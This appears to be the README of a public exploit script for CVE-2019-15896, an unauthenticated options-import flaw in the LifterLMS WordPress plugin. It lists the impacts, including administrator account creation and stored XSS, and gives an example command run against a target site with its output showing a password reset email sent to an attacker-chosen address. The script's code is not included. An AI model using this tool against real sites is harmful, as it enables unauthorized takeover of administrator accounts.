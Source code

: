 # CVE-2019-15896
LifterLMS &lt;= 3.34.5 - Unauthenticated Options Import

# Description

Unauthenticated Options Import, which could lead to 

- Website Redirection

- Administrator Account Creation

- Content Injection

- Stored XSS

The issues have been reported as fixed in 3.35.0. However v3.35.1 added additional input sanitisation and filtering.


How to use
---
$ python3 CVE-2019-15896.py --url http://wordpress.lan --username radmin --email admin@admin.lan
LifterLMS <= 3.34.5 - Unauthenticated Options Import
Exploit By Ramdom Robbie
Once ran check your email for the forgotten password link.
Password reset email sent to admin@admin.lan
```

Info
---

```
Requires access to login.php and working email address and the site needs to be able to send emails
```
